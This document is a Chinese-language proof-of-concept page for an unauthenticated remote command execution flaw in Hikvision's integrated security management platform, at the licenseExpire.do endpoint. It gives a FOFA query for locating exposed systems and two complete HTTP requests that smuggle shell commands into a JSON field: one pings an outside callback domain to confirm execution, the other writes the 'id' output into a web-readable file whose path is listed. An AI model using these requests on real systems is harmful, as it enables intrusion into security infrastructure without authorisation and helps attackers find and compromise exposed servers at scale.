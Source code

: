 # 海康威视综合安防管理平台licenseExpire存在前台远程命令执行漏洞

海康威视综合安防管理平台 `/portal/cas/login/ajax/licenseExpire.do` 存在远程命令执行漏洞，未经身份验证的远程攻击者可通过该漏洞在服务器端任意执行代码。

## fofa

```yaml
app="HIKVISION-综合安防管理平台"
```

## poc

```
POST /portal/cas/login/ajax/licenseExpire.do HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

{"type":"environment","operate":"","machines":{"id":"$(ping+qsdiehtuxn.dgrh3.cn)"}
```

```java
POST /portal/cas/login/ajax/licenseExpire.do HTTP/1.1
Host: 
Cache-Control: max-age=0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
If-Modified-Since: Thu, 01 Jun 1970 00:00:00 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=jp9u6tFmSc3fk7Jzf9DQjK25abfBb_b4Yy1r4rax; curtTabId=all; configMenu=
Connection: close
Content-Length: 135

{"type":"environment","operate":"","machines":{"id":"$(id > /opt/hikvision/web/components/tomcat85linux64.1/webapps/vms/static/1.txt)"}
```

文件路径

`/vms/static/1.txt`